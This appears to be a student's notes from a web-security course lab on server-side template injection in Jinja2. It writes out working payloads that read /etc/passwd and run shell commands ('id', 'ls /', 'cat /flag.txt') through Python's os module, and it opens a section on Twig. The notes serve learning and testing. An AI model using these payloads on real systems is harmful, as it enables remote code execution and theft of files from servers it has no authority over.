 ## Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![](Pasted%20image%2020250303183621.png)

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![](Pasted%20image%2020250303183702.png)

>[!Example]
>The academy exercise for this section:

First I'll test for an information disclosure with `{{ config.items() }}`:

![](Pasted%20image%2020250303183850.png)

![](Pasted%20image%2020250303183914.png)

As it has worked, I'll try then to get RCE with:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![](Pasted%20image%2020250303184055.png)

Now I'll read the content of the `flag.txt` with:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

# Exploiting SSTI - Twig

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.
